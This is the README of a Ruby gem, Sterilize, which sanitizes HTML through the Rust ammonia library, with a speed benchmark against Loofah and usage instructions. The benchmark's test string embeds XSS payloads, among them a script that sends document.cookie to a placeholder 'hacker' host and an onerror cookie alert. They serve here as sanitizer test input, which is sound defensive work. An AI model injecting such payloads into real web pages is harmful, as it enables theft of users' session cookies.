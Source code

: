 # Sterilize

Sterilize is a gem which uses the Rust library [ammonia](https://github.com/rust-ammonia/ammonia) to provide text sanitization

> Ammonia is a whitelist-based HTML sanitization library. It is designed to prevent cross-site scripting, layout breaking, and clickjacking caused by untrusted user-provided HTML being mixed into a larger web page.

## Why not Loofah

Loofah is popular, but can be difficult to deal with in terms of configuration and usage. `Sterilize` aims to be essentially zero configuration and provides a very simple API (one method!). Give it a string and get back a sanitized version.

Take a look at the specs directory to see some of the cases that get handled. They are mostly provided for documentation purposes as the `ammonia` library is extensively [tested](https://github.com/rust-ammonia/ammonia/blob/master/src/lib.rs)

Finally, Sterilize is _fast_.

```ruby
unsafe_string = "I am nice safe user input, nothing to see here.. <script>console.log('installing bitcoin miner')</script><SCRIPT>var+img=new+Image();img.src='http://hacker/'%20+%20document.cookie;</SCRIPT><img src='http://url.to.file.which/not.exist' onerror=alert(document.cookie);><a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgna25pZ2h0c3RpY2sgd2FzIGhlcmUnKTwvc2NyaXB0Pg=='>HACK HACK HACK</a>" * 10000

Benchmark.bm do | benchmark |
  benchmark.report("Sterilize") do
    50.times do
      Sterilize.perform(unsafe_string)
    end
  end
  benchmark.report("Loofah") do
    50.times do
      Loofah.scrub_fragment(unsafe_string, :prune).to_str
    end
  end
end
```

As you can see, Sterilize can operate significatnly faster. As with all benchmarks though, your mileage may vary and it's important to see how things work in practice for you.

| Library   | user       | system   | total      | real         |
| --------- | ---------- | -------- | ---------- | ------------ |
| Sterilize | 74.585432  | 0.250712 | 74.836144  | ( 75.194400) |
| Loofah    | 110.456900 | 0.619901 | 111.076801 | (111.206092) |

## Installation

In order to use this library you will need to have access to Rust's build tooling [cargo](https://doc.rust-lang.org/cargo/getting-started/installation.html), this simplest way to get this is via [rustup](https://rustup.rs/).

After ensuring you have these things available, add the gem to your bundle

```ruby
gem 'sterilize'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install sterilize

`sterilize` includes a Rake take which will compile the Rust library for your platform and copy it to the correct location.

## Usage

`sterilize` provides a single method, `Sterilize.perform` which accepts a string.

```shell
pry(main)> unsafe_string = "I am nice safe user input, nothing to see here.. <script>console.log('installing bitcoin miner')</script>"
pry(main)> Sterilize.perform(unsafe_string)
=> "I am nice safe user input, nothing to see here.. "
```

Passing anything other than a `String` will result in an error.

## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/sterilize. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).
